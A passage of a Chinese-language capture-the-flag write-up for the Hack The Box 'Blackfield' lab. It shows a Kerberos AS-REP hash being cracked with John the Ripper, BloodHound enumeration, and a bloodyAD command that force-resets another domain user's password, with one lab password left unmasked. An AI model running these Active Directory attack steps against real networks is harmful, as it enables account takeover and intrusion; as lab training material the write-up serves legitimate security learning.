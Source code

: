 使用**John the Ripper**进行破解得到密码

```
[root@kali] /home/kali/Blackfield  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxxxx  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
```

使用**support**的账户检查**SMB**权限

![](./images/image-66.png)

并没有任何泄露，**winrm**也登不上去

## Bloodhound

```
[root@kali] /home/kali/Blackfield  
❯ bloodhound-python -u support -p 'xxxxxxxxxxx' -d blackfield.local -ns 10.10.xx.xx -c All       
```

注意到**support**可以修改**audit2020**的密码

![](./images/image-67.png)

```
[root@kali] /home/kali/Blackfield  
❯ bloodyAD --host '10.10.xx.xx' -d 'blackfield.local' -u 'support' -p '#00^BlackKnight' set password 'audit2020' '123456ABC!'     ⏎
[+] Password changed successfully!
```

修改后仍然无法使用**evil-winrm**，不过可以用**audit2020**的账户登录到**SMB**的**forensic**目录
